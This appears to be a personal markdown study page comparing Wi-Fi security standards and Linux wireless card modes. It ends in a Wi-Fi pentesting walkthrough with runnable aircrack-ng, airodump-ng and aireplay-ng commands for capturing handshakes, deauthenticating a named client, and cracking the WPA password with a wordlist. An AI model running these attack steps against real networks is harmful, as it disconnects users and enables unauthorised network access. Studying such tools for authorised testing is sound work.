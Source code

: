 ### 🔒 WEP (Wired Equivalent Privacy)

- Introduced: 1997 (original Wi-Fi standard, IEEE 802.11).
- Encryption: RC4 stream cipher with 64-bit / 128-bit keys.
- Weakness: Very easy to crack due to weak key scheduling and predictable IV (Initialization Vector).
- Status: Obsolete – can be hacked in minutes with tools like Aircrack-ng.

### 🔒 WPA (Wi-Fi Protected Access)

- Introduced: 2003 (as a quick fix to replace WEP).
- Encryption: TKIP (Temporal Key Integrity Protocol).
- Improvement: Added per-packet key mixing + message integrity check.
- Weakness: Still vulnerable (TKIP is outdated), can be cracked with dictionary attacks.
- Status: Deprecated but still seen in old devices.

### 🔒 WPA2 (Wi-Fi Protected Access 2)

- Introduced: 2004 (mandatory since 2006 for Wi-Fi certification).
- Encryption: AES-CCMP (stronger than TKIP).
- Improvement: Much more secure than WPA.
- Weakness: Vulnerable to KRACK attack (2017) if patches not applied; WPA2-Personal (PSK) can be cracked via weak passwords.
- Status: Still widely used today.

### 🔒 WPA3 (Wi-Fi Protected Access 3)

- Introduced: 2018 (latest standard).
- Encryption: SAE (Simultaneous Authentication of Equals) replaces PSK.
- Improvement:
	- Strong protection against offline password-guessing.
	- Forward secrecy (session keys stay safe even if password is later known).
	- Mandatory 192-bit encryption for enterprise networks.
- Weakness: Some early implementation flaws (Dragonblood attack), but patches fixed most issues.
- Status: Most secure standard available; slowly becoming mainstream.

#### ✅ Summary:

- WEP → insecure, obsolete.
- WPA → weak, deprecated.
- WPA2 → secure if patched, still common.
- WPA3 → most secure, recommended for modern networks.

---

### 📡 Wi-Fi Modes in Linux / Networking

#### 🔍 Monitor Mode

**What it is:**
- A special mode where the Wi-Fi card can capture all wireless traffic in the air, even if it’s not meant for your device.

**Use cases:**
- Packet sniffing (Wireshark, tcpdump).
- Security testing (Aircrack-ng, Kismet).
- Analyzing nearby networks without connecting.

**Key point:**
- You don’t need to be connected to a network. It’s like putting your card into “listen-only” mode.
- Example command (Linux):
	```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor
	sudo ifconfig wlan0 up
	```

#### 🌐 Managed Mode

**What it is:**
- The default mode for Wi-Fi cards. In this mode, your Wi-Fi card communicates only with the Access Point (AP) it’s connected to.

**Use cases:**
- Normal Wi-Fi usage (browsing, streaming, etc.).
- Standard network communication.

**Key point:**
- Only processes traffic to/from your device and ignores all other packets in the air.
- Example command (Linux):
```bash
sudo iwconfig
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed
sudo ifconfig wlan0 up
```


### Pentesting Wifi

#### 1. wifite : 

   |NUM  |                    ESSID |  CH | ENCR  |  PWR   | WPS | CLIENT|                                       
   |---  |------------------------- | --- | ----- |  ----  | --- | ------|
   |  1  |                    ROBIN |   7 | WPA   |  99db  |  no |   1   |                                        
   |  2  |                    sonu  |   4 | WPA-P |  22db  | yes |   1   |

   - WPS enabled? :  ✅ WPS is ON → vulnerable to WPS attacks (Pixie Dust, Reaver, Bully).

#### 2. fern-wifi-cracker 


#### 3. Manually 

1. Enable Monitor Mode
```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor

	or 

	sudo airmon-ng check kill         
    sudo airmon-ng start wlan0
```
2. Scan for targets
```bash
   sudo airodump-ng wlan0mon
```
3. Capture  handshake

```bash
	BSSID = 16:32:51:73:9A:94

	sudo airodump-ng -c 11 --bssid 16:32:51:73:9A:94 -w capture wlan0mon

	In Other terminal :

	sudo aireplay-ng -0 10 -a 16:32:51:73:9A:94  -c Station_BSSID wlan0mon
	sudo aireplay-ng -0 50 -a 16:32:51:73:9A:94  -c C6:6D:35:3D:14:72 wlan0mon

	-0 = deauth attack
    10 = number of deauth packets
    -a = target AP BSSID
```

5. Crack the handshake

- Now use a wordlist (like rockyou.txt):
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 16:32:51:73:9A:94 capture-02.cap
```


















## ✅ Quick Workflow

- Before pentest

sudo airmon-ng check kill
sudo airmon-ng start wlan0


##After pentest (to restore internet)

sudo airmon-ng stop wlan0mon
sudo service NetworkManager restart
---

**RobinH00d**
---


